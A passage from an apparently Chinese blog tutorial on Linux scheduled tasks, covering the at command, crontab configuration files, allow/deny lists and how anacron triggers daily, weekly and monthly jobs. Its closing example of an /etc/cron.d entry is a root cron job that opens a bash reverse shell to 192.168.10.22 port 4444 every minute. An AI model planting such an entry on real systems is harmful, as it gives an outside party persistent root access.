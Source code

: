 

结束：ctrl + d



查询 ：atq   或    at   -l  

删除 ：atrm  2  

查询指定计划任务内容：at  -c   2



有关时间的文章：[date命令查看时间](https://blog.csdn.net/qq_36119192/article/details/82813477#date)



### crontab



crontab：周期性计划任务，按照预先设置的时间周期执行用户指定命令的操作



**主要配置文件**



*   全局配置文件： /etc/crontab文件 和 /etc/cron.d/  目录内的文件

*   黑名单文件：/etc/cron.deny        白名单文件：/etc/cron.allow （默认是没有的，用户可自己创建，但是创建了之后就要指定用户），白名单优先级大于黑名单

*   用户定义的配置文件 /var/spool/cron/用户名



crond每分钟会去/etc/cron.d 目录里面搜索配置文件，里面有一个 0hourly 文件，里面写了 01 \* \* \* \* root run-parts /etc/cron.hourly。意思是每隔1小时去运行一次 /etc/cron.hourly/ 目录，/etc/cron.hourly/ 目录下面有一个0anacron文件，这样0anacron 文件就能每小时运行一次。0anacron 按照 /etc/anacrontab 文件里面的配置，将当前时间与 /var/spool/anacron 目录下面的文件里面的时间戳作对比，如果需要则去运行 /etc/anacrontab 对应的条目。这也是为什么 /etc/anacrontab 文件里面只定义了cron.daily、cron.weekly与cron.monthly，而没有定义cron.hourly，因为cron.daily、cron.weekly 与 cron.monthly 其实是由cron.hourly调起来的。每小时运行的 0anacron 只负责进行时间戳的比对，如果当前日期和上次运行 anacron 的日期不符，说明系统停机过了，就会启动 anacron 这支程序，再由 anacron 根据 /etc/anacrontab 配置进一步判断，然后去运行cron.daily、cron.weekly 与 cron.monthly 里面未完成的任务



![](https://img-blog.csdnimg.cn/20191030230217541.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**/etc/crontab** 文件只能由 root 用户编辑修改，[crontab](https://so.csdn.net/so/search?q=crontab&spm=1001.2101.3001.7020)文件里存放着定时任务，crontab里面的定时任务需要指定用户。cron服务不仅每分钟要读一次 /var/spool/cron 内的所有文件，还需要读一次/etc/crontab 配置文件,因此我们配置这个文件也能运用 cron 服务做一些事情。用crontab -e进行的配置是针对某个用户的，而编辑/etc/crontab是针对系统的任务。我们也可以在里面添加针对用户的定时任务，此文件的文件格式是格式如下



![](https://img-blog.csdnimg.cn/20191030230324530.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



/etc/cron.d 是一个目录，目录内存放着一些定时任务。只有root用户有权限在该目录下创建定时任务文件，该目录下的定时任务需要指定用户，格式如下



```
*  *  *  *  *  root  /bin/bash -i>&/dev/tcp/192.168.10.22/4444 0>&1
```
